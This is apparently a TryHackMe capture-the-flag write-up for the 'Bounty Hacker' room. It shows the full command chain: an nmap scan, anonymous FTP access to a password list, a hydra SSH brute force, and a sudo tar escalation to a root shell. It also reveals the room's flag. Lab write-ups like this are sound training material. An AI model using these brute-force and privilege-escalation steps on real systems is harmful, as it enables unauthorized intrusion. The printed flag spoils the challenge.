 # Bounty Hacker CTF
Room - https://tryhackme.com/room/cowboyhacker
# Recon
Running a port scan to find open ports
```
nmap -sS -A -oN cowboyscan.txt 10.10.234.162
```
Discover 3 open ports on this system:
```
21/tcp open ftp vsftpd 3.0.3
22/tcp open ssh OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp open http Apache httpd 2.4.18 ((Ubuntu))
```
Port 80 is open possibly indicating its a web server. <br>  
Going to http://10.10.234.162, presents a VERY simple HTML webpage. <br>
<br> ![](https://i.gyazo.com/77d9dfc2e6cd4a507a296238d63ebd0a.jpg) <br>
Using directory enumeration to see if there are any other pages that are accessible.

```
dirb http://10.10.234.162/ /usr/share/wordlists/dirb/common.txt
```
Unfortunately this is a miss. Only returns /image which holds the only image on the main page and /server-status which returns a 403 forbidden. <br>
Moving on to try to see what I can get from FTP. <br>
It can be accessed using anonymous.<br>
```
ftp> passive off
Passive mode: off; fallback to active mode: off.
ftp> dir
200 EPRT command successful. Consider using EPSV.
150 Here comes the directory listing.
-rw-rw-r--    1 ftp      ftp           418 Jun 07  2020 locks.txt
-rw-rw-r--    1 ftp      ftp            68 Jun 07  2020 task.txt
226 Directory send OK.
```
After disabling passive mode and using dir. There are two files locks.txt and task.txt <br>
Using the get command to download both files to my system. <br>
task.txt reads: 
```
1.) Protect Vicious.
2.) Plan for Red Eye pickup on the moon.

-lin
```
locks.txt reads:
```
rEddrAGON
ReDdr4g0nSynd!cat3
Dr@gOn$yn9icat3
R3DDr46ONSYndIC@Te
ReddRA60N
R3dDrag0nSynd1c4te
dRa6oN5YNDiCATE
ReDDR4g0n5ynDIc4te
R3Dr4gOn2044
RedDr4gonSynd1cat3
R3dDRaG0Nsynd1c@T3
Synd1c4teDr@g0n
reddRAg0N
REddRaG0N5yNdIc47e
Dra6oN$yndIC@t3
4L1mi6H71StHeB357
rEDdragOn$ynd1c473
DrAgoN5ynD1cATE
ReDdrag0n$ynd1cate
Dr@gOn$yND1C4Te
RedDr@gonSyn9ic47e
REd$yNdIc47e
dr@goN5YNd1c@73
rEDdrAGOnSyNDiCat3
r3ddr@g0N
ReDSynd1ca7e
```
Strings consisting of lower and upper case alphanumeric charters, numbers and special characters. Pretty safe to assume these are passwords.
# Initial Access
Now that we have a potential set of passwords and a user (lin). We can attempt to access SSH using hydra. Which cracks it near instantly.
```
hydra -l lin -P locks.txt -u 10.10.234.162 ssh
```
```
[22][ssh] host: 10.10.234.162   login: lin   password: RedDr4gonSynd1cat3
```
```
ssh lin@10.10.234.162
```
Entering the password "RedDr4gonSynd1cat3" when prompted and we are in.
# Privilege Escalation
On the users desktop has a file which contains the first flag and is also the only file on the user.
```
lin@bountyhacker:/$ ls /root/
ls: cannot open directory '/root/': Permission denied
```
Trying to list the root directory is not allowed for this user. Seems lin is not too privileged.

```
lin@bountyhacker:/$ sudo -l
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar
```
`sudo -l` shows that we can run /bin/tar as root. Searching https://gtfobins.github.io/ for tar gives us this command:
```
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```
https://gtfobins.github.io/gtfobins/tar/#sudo

```
# whoami
whoami: not found
# 
# ls
bin   cdrom  etc   initrd.img      lib    lost+found  mnt  proc  run   snap  sys  usr  vmlinuz
boot  dev    home  initrd.img.old  lib64  media       opt  root  sbin  srv   tmp  var  vmlinuz.old
# ls /root
root.txt
# 
```

# Collection
After running we now have a shell with root permissions. Then we can read the last flag.
```
# cat /root/root.txt
THM{80UN7Y_h4cK3r}
```
